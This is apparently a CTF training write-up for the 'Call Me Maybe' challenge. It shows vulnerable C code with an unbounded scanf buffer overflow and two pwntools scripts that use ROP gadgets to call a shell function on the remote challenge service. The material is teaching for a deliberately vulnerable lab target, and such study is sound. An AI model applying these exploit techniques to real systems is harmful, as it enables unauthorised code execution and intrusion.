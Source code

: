# Call Me Maybe

---

### Challenge Description

> Want a shell? Just give it a call! You'll to show some verification though.

> Interact with the service at: 3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg:3020

[callmemaybe.zip](https://github.com/caprinux/Cyberthon-2021-Training/files/6330465/callmemaybe.zip)

---

### Solution

Running the binary, we see that it takes in an input Contact, and calls the contact. Maybe you could try calling yourself on this service...

We look at our source code.

```c
void shell(int checker)

{
    char command[8] = "/bin/sh\x00";
    if (checker == 0xDEADBEEF) {
        system(command);
    } else {
        puts("Unauthorized.");
    }
}

int main()
{
    char contact[64];
    ... ... (some long useless ascii text)
    printf("Enter Contact => ");
    scanf("%s", contact);
    printf("Calling %s...\n", contact);
    return 0;
}

```

As we can see, it takes in an input with scanf, and does not limit the number of bytes of input. 

It stores our input into contact which only holds 64 bytes of input.

This gives us a buffer overflow.

We can also see that there is a `shell(int checker)` function which pops us a shell. This is probably our objective, to pop a shell on the remote service.

The function takes in an argument and check it against '0xDEADBEEF' to give us our shell.

How can we possibly call the shell function? If you are unsure, read this [shell](https://github.com/caprinux/Cyberthon-Training/tree/main/Livestream%20Training/shell) from Cyberthon live-stream training which talks about ret2win and goes in depth to explain it.

So the idea is that you can overflow Contact to overwrite return address and return to the Shell() function.

However, how do we send an argument to shell to pass the check and gives us our shell?

We have to go back to assembly and how arguments are taken in.

In AMD64, or 64 bit binaries, when any function is called, i.e. printf, scanf, puts etc. an argument is passed to the function. 

This argument is passed through registers, RDI, RSI, RDX.

In this case, since it only takes in 1 argument, and compares it, it will look something like this in assembly:

```asm
mov DWORD PTR [rbp-0x14], rdi
cmp DWORD PTR [rbp-0x14], 0xdeadbeef
```

The argument in RDI will be stored on the stack and compared against 0xDEADBEEF.

The question now is: How do we put an argument into the register? 

This is where [Return Oriented Programming](https://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html) comes in. 

The crux of the idea is that, our binary contains many small instructions that we can return to. These small instructions are called gadgets.

Since we know how to overflow the Contact variable and take control of the return address, if we can find a gadget that does `pop RDI ; ret`, we can return to that gadget, pop a value into rdi, and then call the shell function.

How do we find ROP gadgets then? This tool will be ur best friend,[ROPGadget Tool](https://github.com/JonathanSalwan/ROPgadget).

Now that we have everything, let's think about our exploit.

Contact holds 64 bytes. So to overflow contacts and reach our return address, we will need a buffer of 64 + 8 bytes.

Next, we find our pop rdi gadget. 

![image](https://user-images.githubusercontent.com/76640319/115134028-61418600-a03f-11eb-827b-727ff99031ac.png)

Got it. Our `pop RDI ; ret` gadget is at 0x400873.

Now we find the address of our shell function.

![image](https://user-images.githubusercontent.com/76640319/115134040-7b7b6400-a03f-11eb-8978-42d6357b0157.png)

Got it. Our shell function is at 0x4006ea. 

Let's also get a `ret` gadget to make things cleaner when we return to `pop rdi` after our main() function.

![image](https://user-images.githubusercontent.com/76640319/115134093-ecbb1700-a03f-11eb-984a-fba9f41f0885.png)

Got it. Our ret gadget is at 0x40055e

Let's craft our exploit now.

```py
from pwn import * # import pwntool library

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30201) # connect to remote service

payload = ''

payload += b"A"*64 + b"A" * 8 # overflow our buffer
payload += p64(0x40055e) # ret gadget
payload += p64(0x400873) # pop rdi gadget
payload += p64(0xDEADBEEF) # argument
payload += p64(0x4006ea) # ret to shell function

p.sendline(payload) # send payload
p.interactive() # interact with service
```

![image](https://user-images.githubusercontent.com/76640319/115134169-70750380-a040-11eb-89d6-2bc0943cfe01.png)

```
CTFSG{h3y_1_ju5t_m3t_y0u_but_1_g0t_sh3ll}
```

---

### Teaser

Can we do this more efficiently perhaps?

Here's a script for thought

```py
from pwn import *

p = remote('3qo9k5hk5cprtqvnlkvotlnj9d14b7mt.ctf.sg', 30201)

context.binary = elf = ELF('callmemaybe')

rop = ROP(elf)
rop.call(rop.ret)
rop.shell(0xdeadbeef)

p.sendlineafter("=> ", flat({ 72: rop.chain() }))
p.interactive()

```
